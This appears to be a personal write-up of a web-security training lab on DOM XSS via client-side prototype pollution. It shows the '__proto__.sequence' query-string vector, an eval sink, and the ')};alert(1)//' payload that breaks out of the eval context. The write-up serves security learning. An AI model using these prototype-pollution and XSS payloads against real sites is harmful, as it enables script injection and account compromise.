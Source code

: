 This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`.


# Solution

1. Identify prototype pollution

This lab requires the dot notation of the target property:

```
/?__proto__.testproperty=DOM_INVADER_PP_POC
```

![[PP-vector.png]]

2. Find an exploitable gadget

![[eval-sink.png]]

The source code uses the `eval` sink along with an injectable property of the `manager` object

3. Craft an exploit

Manipulate the `sequence` property for the Object prototype:

```
/?__proto__.sequence=TESTDOM
```

![[injectable.png]]

Now create an string that will execute the alert function within the `eval` context.

```javascript

eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

```
)};alert(1)//
```

This payload will be just enough to result in:

```javascript
eval('if(manager && manager.sequence){ manager.macro()};alert(1)//) }');
```

![[Advanced Topics/Prototype pollution/Client-Side Prototype Pollution/labs/DOM XSS via an alternative prototype pollution vector/images/exploited.png]]


the DOM invader will not give  a fully functional exploit as it's not context aware.
